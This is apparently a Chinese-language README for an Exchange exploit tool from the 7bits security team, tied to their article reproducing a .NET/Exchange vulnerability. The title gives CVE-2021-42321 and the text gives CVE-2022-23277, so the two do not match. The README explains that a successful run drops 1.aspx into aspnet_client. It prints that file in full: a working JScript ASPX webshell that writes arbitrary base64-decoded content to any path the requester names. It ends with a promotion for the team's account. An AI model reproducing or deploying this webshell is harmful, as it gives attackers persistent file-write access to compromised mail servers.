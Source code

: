 # exch_CVE-2021-42321

## 本文是7bits安全团队文章《DotNet安全-CVE-2022-23277漏洞复现》涉及到的工具

认证部分需要通过burpsuite手动添加，利用成功后会在aspnet_client写入1.aspx。

webshell:

```
<%@ Page Language="JScript" Debug="true"%><%@Import Namespace="System.IO"%><%File.WriteAllBytes(Request["b"], Convert.FromBase64String(Request["a"]));%>
```

利用详情可以参照我们的文章

### 欢迎关注我们的公众号 - Zbits2022

![](/images/qrcode.jpg)


